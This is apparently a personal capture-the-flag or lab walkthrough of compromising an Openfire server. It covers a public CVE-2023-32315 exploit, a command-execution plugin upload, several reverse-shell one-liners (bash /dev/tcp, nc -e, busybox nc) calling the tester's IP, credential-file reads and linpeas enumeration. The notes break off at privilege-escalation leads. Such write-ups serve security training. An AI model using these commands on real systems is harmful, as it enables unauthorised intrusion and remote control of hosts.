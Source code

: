![[Pasted image 20241012115719.png]]

---
# Exploitation
## CVE-2023-32315
- Found `CVE-2023-32315.py` exploit at [https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT], copied to local host and ran `python3 CVE-2023-32315.py -u http://192.168.215.96:9090`
![[Pasted image 20241012115241.png]]
- Used newly created credentials `hugme:HugmeNOW` to login to `Openfire` console
![[Pasted image 20241012115409.png]]

---
# Lateral Movement to user
## Local Enumeration
- Navigated to `server information` and found details on target host
![[Pasted image 20241012120146.png]]
- Navigated to Security Audit Log Viewer and identified `b99aid` has logged into admin console
![[Pasted image 20241012120313.png]]
- Conducted further research and found similar exploit with additional instructions at [https://github.com/miko550/CVE-2023-32315]. Downloaded `openfire-management-tool-plugin.jar` and uploaded to Openfire "Plugins" tab
![[Pasted image 20241012121734.png]]
- Navigated to "Server > Server Settings > Management Tool > System Command" and tested command execution
![[Pasted image 20241012121905.png]]
- Ran `nc -nvlp 4444` to setup netcat listener on local host
- Tested multiple reverse shell commands on target including;
	- `/bin/sh -i >& /dev/tcp/192.168.45.250/4444 0>&1`
	- `nc 192.168.45.250 4444 -e /bin/sh`
	- `nc -c /bin/sh 192.168.45.250 4444`
	- `ncat 192.168.45.250 4444 -e /bin/sh`
	- `busybox nc 192.168.45.250 4444 -e /bin/sh`
- Achieved reverse shell with `busybox nc 192.168.45.250 4444 -e /bin/sh` as user `openfire`
![[Pasted image 20241012122500.png]]
- Ran `cat /home/openfire/local.txt` to print `80a99c502edc13ab1a6b38ee03c9b7b9`
![[Pasted image 20241012122729.png]]
---
# Privilege Escalation
## Local Enumeration
- Ran `sudo -l` - requires password for `openfire`
![[Pasted image 20241012122834.png]]
- Ran `cat /etc/passwd` to find other users
![[Pasted image 20241012123225.png]]
- Uploaded `linpeas.sh` to directory `/usr/share/plugins` and ran `./linpeas.sh`
![[Pasted image 20241012123812.png]]
 - Identified `sudo` version 1.8.3 - potentially vulnerable to CVE-2021-3156
![[Pasted image 20241012101046.png]]
-  Identified vulnerable to CVE-2021-3560
